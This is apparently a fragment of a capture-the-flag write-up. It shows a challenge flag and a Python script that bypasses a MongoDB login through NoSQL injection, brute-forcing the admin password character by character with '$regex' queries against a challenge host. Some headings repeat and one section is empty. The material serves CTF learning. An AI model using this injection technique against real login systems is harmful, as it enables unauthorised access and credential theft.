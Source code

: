```
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```
##

## Wild Goose Hunt

Solved By: Legacyy & PJ

Looking at the page mongo source, we have some nosql, with a username of admin, and admin's password is the flag, we can authenticate easily

PJ pointed out that we can use logical operators to bypass authentication, in this case, we can use regex to brute force the password. I did so using the script below

```python
import requests

HOST = "http://138.68.140.24:30300/api/login"

valid_characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_}{!"

post_data = {
    "username": "admin",
    "password[$regex]": ""
}

password = "^CHTB"

while password[-1] != "}":
    for char in valid_characters:
        post_data["password[$regex]"] = password + char
        r = requests.post(HOST, data=post_data)
        # If logs in successfully...
        if ("welcome back" in r.content.decode("utf-8")):
            password += char
            print(password[1:])
            break
```

##

## E.Tree

Solved By: Legacyy?

##

## Wild Goose Hunt

Solved By: Legacyy & PJ

##
